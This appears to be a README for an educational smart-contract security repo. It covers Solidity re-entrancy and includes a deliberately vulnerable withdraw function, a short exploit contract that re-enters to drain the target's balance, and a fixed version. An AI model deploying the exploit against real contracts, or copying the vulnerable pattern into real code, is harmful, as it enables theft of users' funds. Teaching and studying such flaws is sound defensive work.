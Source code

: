 # 🚧 WORK IN PROGRESS 🚧

# Security research

This repo aims to cover the most common security vulnerabilities in EVM smart contracts,
and provides a set of tools to help developers to find and fix them.
Vulnerabilities are categorized by their type, each type has an example of a vulnerable contract,
a fixed contract (proof) and an exploit to verify the vulnerability.

- [Re-entrancy](#reentrancy-attack)
- [Withdrawal Pattern](#withdrawal-pattern)

## ReEntrancy Attack

[Git Source](https://github.com/Dom-Mac/solspace/blob/f5838bdc64c22456cef26721eb6148f05fc8f839/src/ReEntrancy)

A re-entrancy attack can happen when the **Checks-Effects-Interactions** pattern is not
respected during contracts development.

- **Check**: Validate parameters before modifying the state

- **Effects**: Change the state

- **Interactions**: Call other contracts after storage has been updated accordingly

Every time an interaction is made, the cycle starts again.

### Vulnerable withdraw

[Git Source](https://github.com/Dom-Mac/solspace/blob/f5838bdc64c22456cef26721eb6148f05fc8f839/src/ReEntrancy/ReEntrancyVulnerable.sol)

```solidity
/**
 * @dev Function to withdraw your deposited funds **vulnerable - do not use**
 */
function withdraw() public {
  /**
   * @dev The interaction is made BEFORE the state update
   *      **wrong**
   */
  (bool success, ) = msg.sender.call{ value: balances[msg.sender] }('');

  /**
   * @dev Update the state
   *      **wrong**
   */
  if (success) balances[msg.sender] = 0;
}
```

### ReEntrancy Exploit

[Git Source](https://github.com/Dom-Mac/solspace/blob/f5838bdc64c22456cef26721eb6148f05fc8f839/src/ReEntrancy/ReEntrancyExploit.sol)

Contract to exploit the vulnerable contract, it can be used to drain the contract balance.
The receive function, fired on plain Ether transfers, is used to trigger the re-entrancy attack.

```solidity
/**
 * @dev Function to attack target contract
 */
function exploit() external payable {
  require(msg.value >= 1 ether);
  target.deposit{ value: 1 ether }();
  target.withdraw();
}

/**
 * @dev Function executed on plain Ether transfers
 */
receive() external payable {
  if (address(target).balance >= 1 ether) {
    target.withdraw();
  }
}
```

### ReEntrancy Proof

[Git Source](https://github.com/Dom-Mac/solspace/blob/f5838bdc64c22456cef26721eb6148f05fc8f839/src/ReEntrancy/ReEntrancyProof.sol)

This contract is free from re-entrancy attacks

```solidity
/**
 * @dev Function to withdraw your deposited funds
 */
function withdraw() public {
  /**
   * @dev Update the state
   */
  uint256 amount = balances[msg.sender];
  balances[msg.sender] = 0;

  /**
   * @dev The interaction is made AFTER the state update
   */
  (bool success, ) = msg.sender.call{ value: amount }('');

  /**
   * @dev Check if the interaction was successful
   */
  require(success, 'Transfer failed.');
}
```

## Withdrawal Pattern

[Git Source](https://github.com/Dom-Mac/solspace/blob/f5838bdc64c22456cef26721eb6148f05fc8f839/src/ReEntrancy)

A re-entrancy attack can happen when the **Checks-Effects-Interactions** pattern is not
respected during contracts development.




## Installation

```bash
forge install
forge test
```
